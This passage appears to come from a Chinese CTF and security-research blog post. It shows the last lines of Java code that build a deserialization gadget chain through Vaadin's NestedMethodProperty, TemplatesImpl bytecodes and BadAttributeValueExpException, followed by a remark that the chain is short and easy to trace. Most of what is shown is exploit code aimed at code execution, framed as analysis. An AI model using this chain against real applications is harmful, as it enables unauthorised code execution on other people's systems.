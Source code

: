 ```plain
        setFieldValue(templates, "_bytecodes", new byte[][] {payloads});
        setFieldValue(templates, "_name", "zjacky");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object>(templates, "outputProperties");
        pItem.addItemProperty("outputProperties", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

//        serialize(exception);
unserialize("ser.bin");

    }
}
```

[![](assets/1709282823-e2c27350f2338d105735f2dd74c411af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162559-2aec2a7a-d6dc-1.png)

整个链代码量非常少，其实还是很简单的自己动手跟下即可非常容易理解

# CTFer
